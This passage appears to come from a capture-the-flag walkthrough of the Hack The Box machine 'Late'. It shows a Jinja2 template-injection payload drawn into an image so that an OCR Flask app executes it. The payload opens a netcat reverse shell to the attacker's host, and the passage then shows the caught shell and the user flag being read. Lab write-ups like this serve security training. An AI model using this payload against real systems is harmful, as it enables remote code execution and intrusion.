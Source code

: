 ## Reverse Shell

We can use this to leak data or execute commands remotely. I spent way too long on this next bit, mostly because I couldn't get the OCR of the Flask app to read my image correctly. In the end I got this working:

```sh
┌──(root㉿kali)-[~/htb/late]
└─# convert -size 3200x100 xc:white -font Courier -pointsize 30 -fill black -gravity center -draw "text 0,0 '{{ request.application.__globals__.__builtins__.__import__(\"os\").popen(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.158 1337 >/tmp/f | bash\").read() }}'" image.png 
```

So like before I'm creating an image with my text, I've used the builtin in function to execute a command, and I've passed a standard reverse shell to it. The resulting image looks like this:

![late-reverse-shell](/assets/images/2022-04-25-22-46-45.png)

Start netcat listening to catch the shell:

```sh
┌──(root㉿kali)-[~/htb/late]
└─# nc -nlvp 1337                              
listening on [any] 1337 ...
```

Back to the images site, upload our new file, click on Scan Image button. If it works you will catch the shell:

```sh
┌──(root㉿kali)-[~/htb/late]
└─# nc -nlvp 1337                              
listening on [any] 1337 ...
connect to [10.10.14.158] from (UNKNOWN) [10.10.11.156] 39690
svc_acc@late:~/app$
```

Check who we are:

```text
svc_acc@late:~/app$ id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
```

## User Flag

Grab the user flag:

```text
svc_acc@late:~/app$ ls -ls /home
4 drwxr-xr-x 7 svc_acc svc_acc 4096 Apr  7 13:51 svc_acc

svc_acc@late:~/app$ cd /home/svc_acc

svc_acc@late:~$ ls -lsa
4 drwxrwxr-x 7 svc_acc svc_acc 4096 Apr  4 13:28 app
0 lrwxrwxrwx 1 svc_acc svc_acc    9 Jan 16 18:45 .bash_history -> /dev/null
4 -rw-r--r-- 1 svc_acc svc_acc 3771 Apr  4  2018 .bashrc
4 drwx------ 3 svc_acc svc_acc 4096 Apr  7 13:51 .cache
4 drwx------ 3 svc_acc svc_acc 4096 Jan  5 10:45 .gnupg
4 drwxrwxr-x 5 svc_acc svc_acc 4096 Jan  5 12:13 .local
4 -rw-r--r-- 1 svc_acc svc_acc  807 Apr  4  2018 .profile
4 drwx------ 2 svc_acc svc_acc 4096 Apr  7 11:08 .ssh
4 -rw-r----- 1 root    svc_acc   33 Apr 25 13:34 user.txt

svc_acc@late:~$ cat user.txt
fe6539ca01a7245dde79f192ec1130b7
```